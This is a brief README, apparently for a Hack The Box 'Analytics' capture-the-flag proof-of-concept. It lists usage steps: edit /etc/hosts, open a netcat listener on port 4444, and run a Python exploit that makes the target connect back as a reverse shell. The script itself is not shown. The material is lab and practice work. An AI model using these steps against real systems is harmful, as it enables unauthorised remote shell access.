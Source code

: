 # HTB_Analytics

Usage: python3 HTB_Analytics_poc.py \<listener ip\> \<listener port\>

<p>1.echo "10.10.11.233 data.analytical.htb" >> /etc/hosts</p>
<p>2.nc -nvlp 4444</p>
<p>3.python3 HTB_Analytics_poc.py 10.10.14.1 4444</p>
